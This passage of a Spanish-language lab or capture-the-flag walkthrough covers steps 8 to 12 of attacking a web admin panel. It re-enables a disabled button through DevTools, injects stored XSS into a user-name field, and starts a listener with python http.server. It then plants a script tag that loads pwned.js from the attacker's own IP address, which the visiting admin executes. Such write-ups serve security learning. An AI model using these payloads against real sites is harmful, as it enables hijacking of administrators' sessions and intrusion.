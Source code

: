 **Explicación:** Captura del contenido visible en `admin.php`, guardada en `content/`.

---

## 🧪 Explotación

### 8º - Modificación del HTML para activar botón deshabilitado

**Acción:** En DevTools modificamos:

```html
<button ... disabled> → <button ... >
```

**Resultado:** Podemos crear nuevo usuario.

---

### 9º - Intento de persistencia + prueba de XSS

**Explicación:** Aunque el usuario creado aparece como inactivo, podemos aprovechar campos editables para inyectar código.

---

### 10º - XSS almacenado

**Acción:** Inyectamos `<script>alert('XSS')</script>` en el campo `nombre`.

**Resultado:** Al visitar `/admin.php`, se ejecuta el script.

**Explicación:** Confirmamos que hay XSS almacenado (falta de sanitización).

---

### 11º - Activación de servidor de escucha

**Acción:**

```bash
python3 -m http.server 80
```

**Explicación:** Preparamos servidor para capturar peticiones generadas por un script inyectado.

---

### 12º - Inyección con `<script src>`

**Acción:** Insertamos:

```html
<script src="http://192.168.1.52/pwned.js"></script>
```

**Resultado:** Alguien accede al panel y ejecuta el script automáticamente → Recibimos dos solicitudes HTTP.
